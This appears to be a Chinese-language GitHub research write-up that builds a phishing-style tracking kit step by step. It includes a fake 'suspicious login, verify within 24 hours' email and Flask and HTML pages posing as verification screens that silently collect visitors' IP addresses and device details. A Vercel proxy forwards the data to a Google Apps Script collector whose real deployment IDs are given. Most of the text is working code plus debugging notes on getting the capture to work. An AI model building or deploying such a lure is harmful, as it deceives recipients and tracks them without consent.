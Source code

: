 ## Research : 實作關於寄送一封帶有特殊連結的 Email，使用者點擊後導入架設的一個Web頁面，即可收集 IP 與裝置資訊

流程圖:
```
[寄 Email 帶連結] → [使用者點擊] → [導向 Server 頁面] → [收集 IP/裝置資訊 + 儲存 Log]
```

### 首先嘗試在本地端架設一個簡單的Web

1. 建立本地端收集伺服器（使用 Flask）
```
pip install flask
```
2. 建立 app.py

```python
from flask import Flask, request, render_template
import datetime

app = Flask(__name__)

@app.route("/")
def collect():
    user_ip = request.remote_addr
    user_agent = request.headers.get("User-Agent")
    referrer = request.headers.get("Referer")
    current_time = datetime.datetime.now().isoformat()

    log = f"[{current_time}] IP: {user_ip} | UA: {user_agent} | Referrer: {referrer}\n"
    print(log)

    with open("visitor_logs.txt", "a") as f:
        f.write(log)

    return render_template("info.html")

from flask import Flask, request, render_template, jsonify

@app.route("/device-info", methods=["POST"])
def device_info():
    data = request.get_json()
    data["ip"] = request.remote_addr
    data["time"] = datetime.datetime.now().isoformat()

    with open("device_info_log.txt", "a") as f:
        f.write(str(data) + "\n")

    return jsonify({"status": "received"})


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

**Flask 的 /device-info 接收端點**
```python
from flask import Flask, request, render_template, jsonify

@app.route("/device-info", methods=["POST"])
def device_info():
    data = request.get_json()
    data["ip"] = request.remote_addr
    data["time"] = datetime.datetime.now().isoformat()

    with open("device_info_log.txt", "a") as f:
        f.write(str(data) + "\n")

    return jsonify({"status": "received"})

```

3. 建立收集裝置資訊的 HTML 頁面 (info.html)

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>請稍候...</title>
  <script>
    window.onload = function () {
      const data = {
        userAgent: navigator.userAgent,
        language: navigator.language,
        platform: navigator.platform,
        screen: `${screen.width}x${screen.height}`,
        timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
        hardwareConcurrency: navigator.hardwareConcurrency
      };

      fetch("/device-info", {
        method: "POST",
        headers: {"Content-Type": "application/json"},
        body: JSON.stringify(data)
      });
    };
  </script>
</head>
<body>
  <p>驗證中，請稍候...</p>
</body>
</html>
```
4.  寄送 Email 並內嵌特殊連結
建立 Email 內容（用 Gmail 寄送測試）

Ex:
```
主旨：帳戶安全驗證通知

內容：
您好，系統偵測到您帳戶異常登入，請於24小時內點擊以下連結進行驗證：

[點此立即驗證](http://<IP>:5000/?uid=abc123)

```

結果儲存成以下files:
- visitor_logs.txt：紀錄 IP、UA、Referrer、時間
- device_info_log.txt：詳細裝置資訊（螢幕解析度、平台、核心數、時區等）

*user_ip = request.remote_addr 會取得「瀏覽這個網頁的使用者的來源 IP 位址」，也就是連線到 Flask 伺服器的用戶端 IP

```
user_ip = request.remote_addr
```
在未經 Proxy 的狀況下，IP 是正確的來源端 IP（例如:使用者家裡、手機網路、公司網路的出站 IP）


### 嘗試架設免費的web，並可以透過browser可以直接存取
#### Google Sites

Google Sites 無法直接執行伺服器端程式 (例如 Flask)，只能放置 HTML、圖片等靜態內容。如果需求是「只要一個靜態收集頁面（JS + HTML）」，Google Sites 是可行的

1. 新增 HTML / JS 程式碼
Google Sites 不直接允許貼原始 HTML（例如 <script> 標籤），但可以用以下兩種方式：

- 方法 A：內嵌小工具
    - 在編輯畫面，選擇 「插入」→「內嵌」。
    - 選擇 「內嵌程式碼」。
    - 貼上 HTML 片段，例如：
    - 按下 「下一步」→「插入」。

- 方法 B：使用 iframe (未嘗試)
    - 如果要更彈性的程式碼，可以將完整的 HTML 上傳到 Google Drive，並設定為「可公開訪問」，再用 iframe 引入

**限制**
- 無法使用 Flask/PHP 這類後端程式，因此不能直接紀錄 IP 或寫入檔案。
- 如果要做 IP 收集與紀錄，需要一個可執行程式的伺服器

**解決方式**
- 結合 Google Apps Script
可以在 Google Site 的 JS 代碼中，把收集的資訊（例如 UA、螢幕解析度、IP）送到 Google Apps Script 的 Web App（它是免費的 Serverless 平台）。

Google Apps Script 可以：
- 接收 AJAX POST 資料
- 儲存到 Google Sheet
- 不用自己租伺服器
------ 
    
#### Google Sites + Google Apps Script

流程圖:
```
[使用者點擊 Google Sites 頁面] →
  [載入 JS，收集裝置資訊 + 呼叫 Google Apps Script Web App] →
    [Apps Script 接收資料並存入 Google Sheet + 記錄 IP]
```

1. 建立 Google Sheet 作為資料存儲
- 建立一份新的 Google Sheet
- 第一列輸入欄位：
```  
時間, IP, User Agent, Referrer
```

2. 建立 Google Apps Script Web App
- 開啟 Google Sheet → 擴充功能 → App Script
- 貼上以下程式碼：
```javascript
function doPost(e) {
  var sheet = SpreadsheetApp.getActiveSpreadsheet().getActiveSheet();
  var ip = e.parameter.ip || "unknown";
  var ua = e.parameter.ua || "unknown";
  var res = e.parameter.resolution || "unknown";
  var platform = e.parameter.platform || "unknown";
  var lang = e.parameter.language || "unknown";
  var time = new Date();

  sheet.appendRow([time, ip, ua, res, platform, lang]);
  return ContentService.createTextOutput("ok");
}
```
- 點選左上角「部署」→「新部署」→ 選擇「網頁應用程式」
- 描述：log collector
- 執行應用程式的身份：你自己
- 允許誰訪問：任何人（含匿名者）
- 點選「部署」→ 取得網址，例如：
```
https://script.google.com/macros/s/xxx/exec
```
將原本 HTML 修改為：
- 從 api.ipify.org 取得外部 IP
- 將裝置資訊與 IP 組成 payload
- 傳送到 Google Apps Script Web App（https://script.google.com/macros/s/xxx/exec）

Ex: 
    
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>請稍候...</title>
  <script>
    window.onload = function () {
      fetch("https://api.ipify.org?format=json")
        .then(response => response.json())
        .then(ipData => {
          const params = new URLSearchParams({
            ip: ipData.ip,
            userAgent: navigator.userAgent,
            referrer: document.referrer || "None"
          });

          fetch("https://script.google.com/macros/s/YOUR_SCRIPT_ID/exec", {
            method: "POST",
            body: params
          });
        });
    };
  </script>
</head>
<body>
  <p>驗證中，請稍候...</p>
</body>
</html>
```

**問題**
每次存取 Google Sites 上的頁面，Google Sheet 的內容都沒有更新

**原因**
Google Sites 不允許``<script>``執行，也無法直接呼叫外部 JS（包含 fetch）
Google Sites 對安全性限制非常嚴格，不允許在頁面內執行 ``<script>``、``<iframe>`` 中的 JavaScript（包含 fetch），所以即使在 HTML 中寫好 fetch(...) 傳送資料到 Google Apps Script Web App，也不會真的執行

**解決方式**
將收集 JavaScript 放在可以執行 JS 的地方（例如: GitHub / Vercel / Netlify），然後用 iframe 內嵌到 Google Sites

#### Vercel 

1. 上傳 index.html 到Vercel，自動部署成網站
建立一個 index.html（內容如下）：
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>資料收集中...</title>
  <script>
    window.onload = function () {
      fetch("https://api.ipify.org?format=json")
        .then(response => response.json())
        .then(ipData => {
          const params = new URLSearchParams({
            ip: ipData.ip,
            userAgent: navigator.userAgent,
            referrer: document.referrer || "None"
          });

          fetch("https://script.google.com/macros/s/YOUR_SCRIPT_ID/exec", {
            method: "POST",
            body: params
          });
        });
    };
  </script>
</head>
<body>
  <p>正在驗證裝置資訊中...</p>
</body>
</html>
```
2. 修改 Google Apps Script 程式碼
```
function doPost(e) {
  const sheet = SpreadsheetApp.getActiveSpreadsheet().getActiveSheet();

  // 設定台灣時區時間（+08:00）
  const tz = "Asia/Taipei";
  const now = Utilities.formatDate(new Date(), tz, "yyyy/MM/dd HH:mm:ss");

  const ip = e.parameter.ip || "unknown";
  const ua = e.parameter.userAgent || "unknown";
  const ref = e.parameter.referrer || "None";

  // 每個欄位分開儲存
  sheet.appendRow([now, ip, ua, ref]);

  return ContentService.createTextOutput("OK");
}
```

**問題**
部署完Apps Script後，開啟網址會成功寫入 Google Sheet，但之後再次開啟就不會更新資料，存取網址只能更新一次

**可能原因 1：Google Apps Script Web App 回傳相同結果，瀏覽器快取導致請求被省略**
- Google Apps Script 的 Web App 是無狀態回應（返回相同結果 OK）。
- 如果瀏覽器認為「這個請求上次已經執行過，且沒有差異」，它可能會直接從快取回應而不再觸發 fetch() 請求。

**解法 1：在請求中加入亂數參數避免快取**
可以在 fetch(...) 的 URL 加上一個隨機的查詢參數，例如 timestamp，強迫瀏覽器重新請求：
```html
<script>
window.onload = function () {
  fetch("https://api.ipify.org?format=json")
    .then(response => response.json())
    .then(ipData => {
      const params = new URLSearchParams({
        ip: ipData.ip,
        userAgent: navigator.userAgent,
        referrer: document.referrer || "None"
      });

      // 加上時間戳避免被快取
      const url = "https://script.google.com/macros/s/YOUR_SCRIPT_ID/exec?ts=" + Date.now();

      fetch(url, {
        method: "POST",
        body: params
      });
    });
};
</script>
```

**可能原因 2：Vercel 網站有 cache 或無法觸發 window.onload 多次**
有些情況 window.onload 在 Vercel 上第二次進入時不會重新觸發（例如從快取載入）

**解法 2：改用 DOMContentLoaded（比 window.onload 更快、更穩定）**
```html
<script>
document.addEventListener("DOMContentLoaded", function () {
  fetch("https://api.ipify.org?format=json")
    .then(response => response.json())
    .then(ipData => {
      const params = new URLSearchParams({
        ip: ipData.ip,
        userAgent: navigator.userAgent,
        referrer: document.referrer || "None"
      });

      // 防止快取，加上時間戳
      const url = "https://script.google.com/macros/s/YOUR_SCRIPT_ID/exec?ts=" + Date.now();

      fetch(url, {
        method: "POST",
        body: params
      });
    });
});
</script>
```
**問題**
解法 1（加 ?ts=Date.now()）與解法 2（改用 DOMContentLoaded），但依然遇到：「第一次開啟 Vercel 網址會成功寫入 Google Sheet，但之後就不會更新」的問題。

按 F12 → Network，並觀察：
<img width="1489" height="390" alt="image" src="https://github.com/user-attachments/assets/3853141b-5957-4fc6-be7c-2eb1472a0043" />

在紅色框這行，表示對 https://api.ipify.org?format=json 的 fetch 請求被阻擋了

**可能原因分析**
這通常是因為：
- 瀏覽器阻擋來自網站（vercel.app）跨站呼叫 https://api.ipify.org
- ipify 雖然通常可用，但偶爾會阻擋匿名跨網域 fetch 請求（視來源而定）

**解法一：改用替代 IP API**
改成 https://ipinfo.io/json
免費申請 IPinfo Token
- 註冊：https://ipinfo.io/signup
- 取得token（如：abcd1234efgh）
- 替換 <免費token> 後就能用

將 index.html 中的這段程式碼：
```
fetch("https://api.ipify.org?format=json")
```
改成：
```
fetch("https://ipinfo.io/json?token=<免費token>")
```

**問題**
使用了解法一，但還是出現錯誤

**可能原因分析**
CORS 限制，ipinfo.io 或 api.ipify.org 可能不允許從你網站的 origin 發送跨站請求


**解法二：直接在 Google Apps Script 中抓 IP**
如果不堅持前端抓 IP，也可以在 Apps Script 用 e.parameter 之外的 e 結構取得 IP：

在 Apps Script 中加入：
```
const ip = e.parameter.ip || e.headers['X-Forwarded-For'] || "unknown";
```
這樣就可以不用在前端打 ipify 或 ipinfo，改由後端抓取來源 IP

修改 Apps Script：後端自己抓來源 IP:
```javascript
function doPost(e) {
  const sheet = SpreadsheetApp.getActiveSpreadsheet().getSheetByName("Log");
  const tz = "Asia/Taipei";
  const now = Utilities.formatDate(new Date(), tz, "yyyy/MM/dd HH:mm:ss");

  // 後端抓 IP（取自 request headers）
  let ip = "unknown";
  try {
    const forwarded = e?.headers?.['x-forwarded-for'];
    if (forwarded) {
      ip = forwarded.split(",")[0].trim();
    }
  } catch (err) {
    ip = "unknown";
  }

  const ua = e.parameter.userAgent || "unknown";
  const ref = e.parameter.referrer || "None";

  sheet.appendRow([now, ip, ua, ref]);
  return ContentService.createTextOutput("OK");
}
```
前端 index.html 簡化版本（不再需要抓 IP）
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>驗證中...</title>
  <script>
    document.addEventListener("DOMContentLoaded", function () {
      const params = new URLSearchParams({
        userAgent: navigator.userAgent,
        referrer: document.referrer || "None"
      });

      fetch("https://script.google.com/macros/s/YOUR_SCRIPT_ID/exec?ts=" + Date.now(), {
        method: "POST",
        body: params
      }).then(res => res.text()).then(t => console.log("Apps Script 回應:", t));
    });
  </script>
</head>
<body>
  <p>正在驗證裝置資訊，請稍候...</p>
</body>
</html>
```

**問題**
修改之後，每一次存取網址後，Apps Script都能更新，但是後端自己抓不到來源 IP
<img width="712" height="90" alt="image" src="https://github.com/user-attachments/assets/db841f4f-4a47-492b-b204-17c8ed7d1afa" />

每一次存取 Vercel 網址都能成功寫入 Google Sheet，但後端抓到的 IP 欄位有多筆是 unknown

按 F12 → Network，並觀察：
<img width="1491" height="397" alt="image" src="https://github.com/user-attachments/assets/9f7e4e85-12ab-414f-a463-c7aeda7b9285" />

紅色框這行，代表 Google Apps Script Web App 的請求經過了重導向（302 Redirect），這會導致：
- 請求的 header（如 x-forwarded-for）在 redirect 時可能被丟失
- e.headers['x-forwarded-for'] 在 doPost() 中可能是 undefined
- 結果在 Apps Script 無法從後端取得 IP

另外，點 exec?ts=... → Headers，檢查發現沒有 ``x-forwarded-for``

表示 Google Apps Script 在「Web App 模式」下，並不提供 x-forwarded-for header 給 doPost(e)，特別是在匿名用戶、無認證訪問的情況下

**解法：改用中介 Proxy 後端（真正抓 IP）再轉發給 Apps Script**
由於 Google Apps Script 無法提供 request IP，唯一可靠的方法是透過自己的中介伺服器先收 IP，再將資料轉發給 Apps Script

#### 快速解法（無需自己架伺服器）：用 Vercel Serverless Function 當 Proxy
1. 在 Vercel 新增一個 API 端點 /api/forward.js：
```javascript
export default async function handler(req, res) {
  const ip = req.headers['x-forwarded-for'] || req.socket.remoteAddress || "unknown";
  const ua = req.headers['user-agent'] || "unknown";
  const ref = req.headers['referer'] || "unknown";

  // 將資料轉發到 Google Apps Script Web App
  const gscriptURL = "https://script.google.com/macros/s/AKfycbyM9jZAnb1q-4lpv8xXZcJzARjWIzbtC-qr7uYxPI0EiL09hkZdmNCVUbnaST4NECh0/exec";
  const params = new URLSearchParams({
    ip: ip,
    userAgent: ua,
    referrer: ref
  });

  await fetch(`${gscriptURL}?ts=${Date.now()}`, {
    method: "POST",
    body: params
  });

  res.status(200).send("OK");
}
```
2. 前端 index.html 改成呼叫自己的 Proxy：
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>驗證中...</title>
  <script>
    document.addEventListener("DOMContentLoaded", function () {
      fetch("/api/forward")
        .then(res => res.text())
        .then(msg => console.log("回應:", msg));
    });
  </script>
</head>
<body>
  <p>正在驗證裝置資訊，請稍候...</p>
</body>
</html>
```

流程圖:
```
[使用者開啟 Vercel 網站 index.html]
      ↓
[觸發 /api/forward Serverless Function]
      ↓
[取得來源 IP, UA, Referrer]
      ↓
[轉發到 Google Apps Script Web App]
      ↓
[寫入 Google Sheet 成功]
```

3. Google Apps Script(跟第三版的一樣)
```javascript
function doPost(e) {
  const sheet = SpreadsheetApp.getActiveSpreadsheet().getActiveSheet();

  // 設定台灣時區時間（+08:00）
  const tz = "Asia/Taipei";
  const now = Utilities.formatDate(new Date(), tz, "yyyy/MM/dd HH:mm:ss");

  const ip = e.parameter.ip || "unknown";
  const ua = e.parameter.userAgent || "unknown";
  const ref = e.parameter.referrer || "None";

  // 每個欄位分開儲存
  sheet.appendRow([now, ip, ua, ref]);

  return ContentService.createTextOutput("OK");
}
```
**問題**
在Vercel架設網頁出現錯誤:
<img width="1078" height="402" alt="image" src="https://github.com/user-attachments/assets/d2876616-4de9-4519-a4e6-2c3e0b2e72a1" />

**解決方式**
Add a `vercel.json` file at the root of your project, and use "rewrites" to rewrite all incoming paths to refer to your index path.
```
{
  "rewrites":  [
    {"source": "/(.*)", "destination": "/"}
  ]
}
```
refer: https://medium.com/today-i-solved/deploy-spa-with-react-router-to-vercel-d10a6b2bfde8


***注意Google Apps Script每次更新都需要重新"新增部屬作業"**

### 測試結果
開啟部署的網址 https://web-tsubasa.vercel.app/ 後，每次都會：
- 自動觸發 /api/forward
- 抓到實際 IP（例如 140.114.x.x）
- 將資料送到 Apps Script
- 寫入 Google Sheet

<img width="933" height="97" alt="image" src="https://github.com/user-attachments/assets/4a236575-5afc-4b8b-8189-c348fa24ecf7" />

如果要增加其他的硬體資訊
Web 登入後可取得的硬體資訊與 IP（無需使用外掛）
| 資訊類型               | 可否取得                                      | 說明                                                 |
| ------------------ | ----------------------------------------- | -------------------------------------------------- |
| Public IP          | ✅（透過後端 `req.headers` 或 `x-forwarded-for`） | 已實作於 `forward.js` 中                                |
| User-Agent         | ✅                                         | 提供 OS、瀏覽器版本資訊                                      |
| Referrer           | ✅                                         | 使用者來源頁面                                            |
| 語言設定               | ✅                                         | `navigator.language`                               |
| 作業系統平台             | ✅                                         | `navigator.platform`                               |
| 螢幕解析度              | ✅                                         | `screen.width`, `screen.height`                    |
| 硬體核心數              | ✅                                         | `navigator.hardwareConcurrency`                    |
| 時區                 | ✅                                         | `Intl.DateTimeFormat().resolvedOptions().timeZone` |
| 指紋資訊（Canvas/WebGL） | ⚠️ 需 FingerprintJS 第三方套件                  |                                                    |
| 裝置名稱 / MAC / 硬碟序號  | ❌                                         | 出於瀏覽器安全性，無法直接取得                                    |

1. 修改後的index.html
收集硬體資訊並送給 /api/forward：
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>驗證中...</title>
  <script>
    document.addEventListener("DOMContentLoaded", function () {
      const data = {
        userAgent: navigator.userAgent,
        referrer: document.referrer || "None",
        language: navigator.language,
        platform: navigator.platform,
        resolution: `${screen.width}x${screen.height}`,
        timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
        cores: navigator.hardwareConcurrency.toString()
      };

      fetch("/api/forward", {
        method: "POST",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify(data)
      })
      .then(res => res.text())
      .then(msg => console.log("回應:", msg));
    });
  </script>
</head>
<body>
  <p>正在驗證裝置資訊，請稍候...</p>
</body>
</html>
```
2. 修改後的 api/forward.js（支援 JSON 傳入）
```javascript
export default async function handler(req, res) {
  const ip = req.headers['x-forwarded-for'] || req.socket.remoteAddress || "unknown";
  const ua = req.headers['user-agent'] || "unknown";

  let body = {};
  try {
    body = req.body;
    if (typeof body === "string") {
      body = JSON.parse(body); // for Vercel raw JSON
    }
  } catch (e) {
    console.error("解析 JSON 失敗", e);
  }

  const ref = body.referrer || "None";
  const lang = body.language || "unknown";
  const platform = body.platform || "unknown";
  const resolution = body.resolution || "unknown";
  const timezone = body.timezone || "unknown";
  const cores = body.cores || "unknown";

  const gscriptURL = "https://script.google.com/macros/s/AKfycbw6Zbb8WVk8AYyqoyglxEBGab4iyewNaUgx0Ul68bNv-Bw-clfch40X880Cmtg2tesY/exec";
  const params = new URLSearchParams({
    ip,
    userAgent: ua,
    referrer: ref,
    language: lang,
    platform,
    resolution,
    timezone,
    cores
  });

  await fetch(`${gscriptURL}?ts=${Date.now()}`, {
    method: "POST",
    body: params
  });

  res.status(200).send("OK");
}
```
3.  修改 Google Apps Script：接收擴充欄位並寫入 Sheet
```javascript
function doPost(e) {
  const sheet = SpreadsheetApp.getActiveSpreadsheet().getActiveSheet();

  // 設定台灣時區時間（+08:00）
  const tz = "Asia/Taipei";
  const now = Utilities.formatDate(new Date(), tz, "yyyy/MM/dd HH:mm:ss");

  const ip = e.parameter.ip || "unknown";
  const ua = e.parameter.userAgent || "unknown";
  const ref = e.parameter.referrer || "None";
  const res = e.parameter.resolution || "unknown";
  const platform = e.parameter.platform || "unknown";
  const lang = e.parameter.language || "unknown";
  const tzName = e.parameter.timezone || "unknown";
  const cores = e.parameter.cores || "unknown";

  sheet.appendRow([now, ip, ua, ref, res, platform, lang, tzName, cores]);
  return ContentService.createTextOutput("OK");
}
```

如果要修改成讓使用者瀏覽網頁時：
:white_check_mark: 收集裝置資訊與 IP
:white_check_mark: 傳送到 Server
:white_check_mark: 將收集結果即時顯示在網頁上

整體架構變更摘要
要做的事是：
-  前端：收集資訊 → 傳送 /api/forward
-  後端（Vercel）：加入回傳收集資料（包含 IP）
-  前端：拿到伺服器回傳資料後，更新頁面 DOM

1. 修改後的 index.html
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>驗證中...</title>
  <style>
    #info-box {
      margin-top: 20px;
      padding: 10px;
      border: 1px solid #ccc;
      font-family: monospace;
      white-space: pre-wrap;
    }
  </style>
  <script>
    document.addEventListener("DOMContentLoaded", function () {
      const data = {
        userAgent: navigator.userAgent,
        referrer: document.referrer || "None",
        language: navigator.language,
        platform: navigator.platform,
        resolution: `${screen.width}x${screen.height}`,
        timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
        cores: navigator.hardwareConcurrency?.toString() || "unknown"
      };

      fetch("/api/forward", {
        method: "POST",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify(data)
      })
      .then(res => res.json())  // ← 期待回傳 JSON
      .then(result => {
        const box = document.getElementById("info-box");
        box.innerText =
          `已回傳並收到以下裝置資訊：\n\n` +
          `時間：${result.timestamp}\n` +
          `IP：${result.ip}\n` +
          `User-Agent：${result.userAgent}\n` +
          `Referrer：${result.referrer}\n` +
          `Resolution：${result.resolution}\n` +
          `Platform：${result.platform}\n` +
          `Language：${result.language}\n` +
          `Timezone：${result.timezone}\n` +
          `CPU Cores：${result.cores}`;
      })
      .catch(err => {
        document.getElementById("info-box").innerText = "資訊回傳失敗：" + err;
      });
    });
  </script>
</head>
<body>
  <p>正在驗證裝置資訊，請稍候...</p>
  <div id="info-box">📡 等待伺服器回應...</div>
</body>
</html>
```

2. 修改後的 forward.js
讓 server 回傳完整資料（包含時間與 IP）：
```javascript
export default async function handler(req, res) {
  if (req.method !== "POST") {
    return res.status(405).send("Method Not Allowed");
  }

  const ip = req.headers['x-forwarded-for']?.split(',')[0].trim() || req.socket.remoteAddress || "unknown";
  const ua = req.headers['user-agent'] || "unknown";

  let body = {};
  try {
    body = typeof req.body === "string" ? JSON.parse(req.body) : req.body;
  } catch (e) {
    console.error("JSON 解析失敗", e);
  }

  const now = new Date().toISOString();  // 傳給前端顯示時間（UTC 格式）

  const data = {
    timestamp: now,
    ip,
    userAgent: ua,
    referrer: body.referrer || "None",
    language: body.language || "unknown",
    platform: body.platform || "unknown",
    resolution: body.resolution || "unknown",
    timezone: body.timezone || "unknown",
    cores: body.cores || "unknown"
  };

  // 傳送到 Google Apps Script 儲存
  const gscriptURL = "https://script.google.com/macros/s/AKfycbw6Zbb8WVk8AYyqoyglxEBGab4iyewNaUgx0Ul68bNv-Bw-clfch40X880Cmtg2tesY/exec";
  const params = new URLSearchParams(data);

  try {
    await fetch(`${gscriptURL}?ts=${Date.now()}`, {
      method: "POST",
      body: params
    });
  } catch (err) {
    console.error("轉發到 GAS 失敗:", err);
  }

  // 回傳完整資料給前端
  res.status(200).json(data);
}
```

3. Google Apps Script 不需更動
```javascript
function doPost(e) {
  const sheet = SpreadsheetApp.getActiveSpreadsheet().getActiveSheet();

  // 設定台灣時區時間（+08:00）
  const tz = "Asia/Taipei";
  const now = Utilities.formatDate(new Date(), tz, "yyyy/MM/dd HH:mm:ss");

  const ip = e.parameter.ip || "unknown";
  const ua = e.parameter.userAgent || "unknown";
  const ref = e.parameter.referrer || "None";
  const res = e.parameter.resolution || "unknown";
  const platform = e.parameter.platform || "unknown";
  const lang = e.parameter.language || "unknown";
  const tzName = e.parameter.timezone || "unknown";
  const cores = e.parameter.cores || "unknown";

  sheet.appendRow([now, ip, ua, ref, res, platform, lang, tzName, cores]);
  return ContentService.createTextOutput("OK");
}
```
